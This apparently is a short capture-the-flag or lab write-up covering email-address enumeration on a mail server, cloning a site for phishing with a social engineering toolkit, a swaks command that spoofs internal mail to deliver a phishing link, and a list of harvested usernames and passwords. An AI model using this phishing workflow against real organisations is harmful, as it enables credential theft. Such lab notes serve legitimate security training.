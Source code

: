 

```
######## Scan started at Sat Sep 12 14:22:01 2020 #########
10.13.38.12: it@humongousretail.com exists
10.13.38.12: legal@humongousretail.com exists
10.13.38.12: marketing@humongousretail.com exists
10.13.38.12: SALES@humongousretail.com exists
10.13.38.12: sales@humongousretail.com exists
```



#### setoolkit

- create a phishing page using social enginnering toolkit
- using site cloner
- using swak to send mail

```
swaks --to sales@humongousretail.com --from it@humongousretail.com --body 'phis link' -server 10.13.38.12
```



![image-20200912145123341](xen.assets/image-20200912145123341.png)



#### credentials

```
user=awardel    password=@M3m3ntoM0ri@

user=jmendes    password=VivaBARC3L0N@!!!

user=pmorgan    password=Summer1Summer!
```

